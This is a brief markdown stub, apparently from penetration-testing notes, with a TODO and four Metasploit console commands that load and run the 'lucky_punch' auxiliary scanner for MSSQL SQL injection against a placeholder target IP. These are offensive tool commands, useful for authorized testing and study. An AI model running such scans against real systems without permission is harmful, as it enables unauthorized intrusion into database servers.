 # Metasploit

TODO: Provide a step by step with this MSF module for MSSQL SQL Injection

```
msf > use auxiliary/scanner/http/lucky_punch

msf auxiliary(scanner/http/lucky_punch) > options

msf auxiliary(scanner/http/lucky_punch) > set rhosts <IP>

msf auxiliary(scanner/http/lucky_punch) > run
```